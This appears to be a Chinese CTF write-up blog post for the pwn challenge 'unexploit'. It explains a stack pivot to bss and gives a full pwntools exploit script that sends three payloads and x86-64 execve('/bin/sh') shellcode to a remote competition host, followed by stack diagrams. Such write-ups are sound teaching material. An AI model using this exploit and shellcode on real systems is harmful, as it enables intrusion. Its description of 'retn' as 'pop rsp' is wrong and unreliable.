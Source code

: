 ```yaml
---
layout: post
title: 安恒杯-unexploit
category: pwn
tags: [pwn]
---
```


## Checksec unexploit

![img](/assets/images/2019-08-05-unexploit/unexploit2.png)

没开保护，NX没开，第一时间想到的就是写shellcode进去。

## ida分析

![img](/assets/images/2019-08-05-unexploit/unexploit1.png)

有一个栈溢出漏洞，但是只有**0x20**的空间。因此，可以用**栈迁移**。

## 一些汇编指令
```
leave:
    1.mov rsp,rbp   #将rsp指向rbp
    2.pop rbp   #将栈中保存的父栈帧的 %rbp 的值赋值给 %rbp，并且 %rsp 上移一个位置指向父栈帧的结尾处。
retn:
    pop rsp   #将当前的ESP中指向的地址出栈，JMP到这个地址。
```
**所以我们可通过覆写rbp来使栈迁移到bss段去，并利用read函数去写入shellcode，再去执行shellcode。**

## 先给出Exp
```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

p = remote('101.71.29.5',10015)
#p = process('./unexploit')

elf = ELF('unexploit')
read_addr = 0x40068A
bss_addr = elf.bss()

shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

payload1 = 'a'*8+p64(bss_addr-8)+p64(read_addr)+p64(0xdeadbeef)
payload2 = 'a'*8+p64(bss_addr+8)+p64(read_addr)+p64(0xdeadbeef)   #加上0xdeadbeef是为了填满0x20
payload3 = p64(bss_addr+8)+shellcode

p.send(payload1)
p.send(payload2)
p.send(payload3)
p.interactive()
```
### payload1
    mov rsp,rbp:
                        +-------------+
                        |  aaaaaaaa   |
                        +-------------+  
            rsp、rbp +->+  bss-0x8    |
                        +-------------+
                        |  read_addr  |
                        +-------------+
                        |  0xdeadbeef |
                        +-------------+

    pop rbp:
            +-------------+          +-------------+
            |  aaaaaaaa   |          |             |
            +-------------+          +-------------+
            |  bss-0x8    |    rbp+->+  bss-0x8    |
            +-------------+          +-------------+
      rsp+->+  read_addr  |          |  bss_start  |
            +-------------+          +-------------+
            |  0xdeadbeef |          |             |
            +-------------+          +-------------+

    pop rsp: 返回到read函数。

### payload2   
    mov rsp,rbp
    pop rbp:
                    +-------------+
                    |  aaaaaaaa   |
                    +-------------+
                    |  bss+0x8    |
                    +-------------+
              rsp+->+  read_addr  |<-+bss-start
                    +-------------+
              rbp+->+  0xdeadbeef |
                    +-------------+

    pop rsp:返回到read函数。

### payload3
    mov rsp,pbp
    pop rbp:
            +-------------+
            |  aaaaaaaa   |
            +-------------+
            |  bss+0x8    |
            +-------------+
            |  bss+0x8    |<-+bss-start
            +-------------+
      rsp+->+  shellcode  |
            +-------------+

    pop rsp:执行shellcode



